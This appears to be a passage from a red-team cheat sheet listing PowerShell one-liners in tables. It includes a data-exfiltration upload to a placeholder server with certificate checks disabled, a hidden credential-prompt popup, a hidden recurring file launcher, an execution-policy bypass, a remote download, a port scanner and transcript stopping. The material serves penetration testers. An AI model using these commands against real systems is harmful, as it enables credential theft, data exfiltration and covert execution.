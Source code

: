 # Windows Scripting

*This section details various PowerShell and Batch script examples. Some of these examples enumerate system information, cause system effects, or aid with the discovery of sensitive information.*

## PowerShell Scripting

### POWERSHELL BASICS
| Description | Command |
|-------------|---------|
| Stops recording | `Stop-Transcript` |
| Displays file contents | `Get-Content <FILE_PATH>` |
| Shows examples of <command> | `Get-Help <COMMAND> -Examples` |
| Searches for command string | `Get-Command '*<STRING_TO_SEARCH>*'` |
| Displays services (stop-service, start-service) | `Get-Service` |
| Displays services, but takes alternate credentials | `Get-WmiObject -Class win32_service` |
| Display PowerShell version | `$psVersionTable` |
| Run PowerShell 2.0 from 5.0 | `powershell -version 2.0` |
| Returns # of services | `Get-Service | measure-object` |
| Displays drives in the current session | `get-psdrive` |
| Returns only process names | `Get-Process | select -expandproperty name` |
| Cmdlets that take creds | `get-help * -parameter credential` |
| Available WMI network commands | `get-wmiobject -list *network` |
| DNS Lookup | `[Net.DNS]::GetHostEntry("<IP_ADDRESS>")` |

## POWERSHELL ONELINERS
| Description | Command |
|-------------|---------|
| Launch file with PowerShell | `powershell -ep bypass -nop -File <FILE_PATH>` |
| TCP port connection (scanner) (Change <PORT>'s to match desired ports to scan, and replace IP) | `$ports=(<PORT>,<PORT>,<PORT>);$ip="<IP_ADDRESS>";foreach ($port in $ports){try{$socket=New-object System.Net.Sockets.TcpClient($ip,$port);catch{} if($socket -eq $NULL){echo $ip":"$port" - Closed"}else{echo $ip":"$port" - Open";$socket = $NULL}}` |
| Ping with 500 millisecond timeout | `$ping = New-Object System.Net.NetworkInformation.ping;$ping.Send("<IP_ADDRESS>",500)` |
| Basic authentication popup | `powershell –WindowStyle Hidden –ExecutionPolicy Bypass $Host.UI.PromptForCredential("<WINDOW_TITLE>","<MESSAGE>","<USERNAME>","<DOMAIN>")` |
| Run FILE every 4 hours between Aug 8-11, 2022 and the hours of 0800-1700 (from Cmd.exe) | `powershell –Command "do {if ((Get-Date –format YYYYMMDD-HHMM) -match '202208(0[8-9]\|1[0-1])\|(0[8-9]\|1[0-7])[0-5][0-9]') {Start-Process –WindowStyle Hidden "<FILE_PATH>";Start-Sleep –s 14400}}while(1)"` |
| PowerShell runas | `$password = convertto-securestring -string "<PASSWORD>" –asplaintext –force; $pp = new-object –typename System.Management.Automation.PSCredential –argumentlist "<DOMAIN>\<USERNAME>", $pw; Start-Process powershell –Credential $pp –ArgumentList '-noprofile –command &{Start-Process <FILE_PATH> -verb runas}'` |
| Email sender | `Send-MailMessage -to "<EMAIL>" –from "<EMAIL>" –subject "<SUBJECT>" –a "<FILE_ATTACHMENT>" –body "<BODY>" –SmtpServer "<IP_ADDRESS>" -Port "<PORT>" -Credential "<PS_CRED_OBJECT>" -UseSsl` |
| PowerShell file download from specified URL | `powershell –noprofile –noninteractive –Command 'Invoke-WebRequest -Uri "https://<URL>" -OutFile <FILE_PATH>'` |
| PowerShell data exfil | Script will send a file ($filepath) via http to server ($server) via POST request. Must have web server listening on port designated in the $server<br><br>`powershell –noprofile –noninteractive –command '[System.Net.ServicePointManager]::ServerCertificateValidationCallback = {$true}; $server="*https://<URL>*"; $filepath="***<FILE_PATH>***"; $http = new-object System.Net.WebClient; $response = $http.UploadFile($server,$filepath);'` |
| Export OS info into CSV file | `Get-WmiObject –class win32_operatingsystem | select –property * | export-csv <FILE_PATH>` |
| List running services | `Get-Service | where {$_.status –eq "Running"}` |
| PowerShell Netstat Equivalent | `[System.Net.NetworkInformation.IPGlobalProperties]::GetIPGlobalProperties().GetActiveTcpConnections()` |
| Persistent PSDrive to remote file share | `New-PSDrive -Persist -PSProvider FileSystem -Root \\<IP_ADDRESS>\<SHARE_FOLDER> -Name I` |